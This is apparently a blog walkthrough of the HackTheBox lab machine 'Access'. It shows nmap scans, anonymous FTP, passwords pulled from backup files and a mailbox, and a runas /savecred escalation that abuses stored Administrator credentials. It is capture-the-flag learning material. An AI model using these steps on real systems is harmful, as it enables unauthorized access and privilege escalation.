



External Recon #
We kick off a basic “nmap” scan:
nmap -sC -sV 10.10.10.98
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
23/tcp open telnet?
80/tcp open http Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
As you can see, we find some very common ports. When we visit the website listening on “port 80” we just find a picture of a server-room.

Let’s check “ftp” and “telnet” by running another “nmap” scan.
nmap -A 10.10.10.98
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst:
|_ SYST: Windows_NT
23/tcp open telnet?
80/tcp open http Microsoft IIS httpd 7.5
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
First thing to note is that we have anonymous access to the “ftp” server. Let’s login an see what we find.
Explore #
ftp 10.10.10.98
Name (10.10.10.98:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
08-23-18 08:16PM <DIR> Backups
08-24-18 09:00PM <DIR> Engineer
In both directories are files. I downloaded them with get <filename>.

The zip file was password protected. So, I moved over to the database file. I ran the tool “strings” and “grep” on it and hoped for a quick win. Perhaps we find a password.
And indeed I found a password to the zip:
strings backup.mdb | grep access
access4u@security
Of cause I tried different versions of this. grep passw and others.
To be honest. I don’t know what else I tried. Perhaps I just piped “strings” into “more”
and searched manually. ;)
However in the zip file, I found a “.pst” file. If you don’t know what this is, you
can run file against it and find out it’s a “Microsoft Exchange” format for Mailboxes.
We can’t read it how it is right now. So I searched for a converter. Very quickly I came across “pst-tools”. You can get them via “apt” in “kali”.
After installing it, I ran readpst. It converted the file to a “.mbox” file.
You can get the file here.
In it you find an email from John.
Hi there,
The password for the “security” account has been changed to 4Cc3ssC0ntr0ller. Please ensure this is passed on to your engineers.
Regards, John
How kind! Thanks John! :)
Exploit #
Let’s login with our new credentials:

And we’ve got a shell. Including user.txt
C:\Users\security\Desktop>dir
Volume in drive C has no label.
Volume Serial Number is 9C45-DBF0
Directory of C:\Users\security\Desktop
08/28/2018 06:51 AM <DIR> .
08/28/2018 06:51 AM <DIR> ..
08/21/2018 10:37 PM 32 user.txt
1 File(s) 32 bytes
2 Dir(s) 16,767,012,864 bytes free
Internal Recon #
I searched around in the box for clues how to proceed. Eventually I checked for stored credentials:
cmdkey /list
Currently stored credentials:
Target: Domain:interactive=ACCESS\Administrator
Type: Domain Password
User: ACCESS\Administrator
If you want to learn more about “Windows Enumeration” check this blog.
He has some HackTheBox WriteUps too.
Privilege Escalation #
In order to use those stored credentials, I used “runas” with the “/savecreds” option.
runas /user:ACCESS\Administrator /savecred "cmd.exe /c type c:\users\administrator\desktop\root.txt C:\Users\security\AppData\Local\Temp\root.txt"
Root Flag #
So we’ve got our root.txt:

But getting a shell is fun. At least when you don’t do a writeup. For some reason my payloads wouldn’t work anymore. So I had to figure out another way to get a shell.
I won’t give you the complete rundown today. I probably will do a seperate blog for different shells in the near future. Just get yourself this repo: Github: nishang and play with “Invoke-PowershellTCP”. It’s cool! :)

Lessons Learned #
I should learn to take propper notes on my machines. I had to do the machine a second time basicly. sigh
That’s it for today. Have a nice one!
x41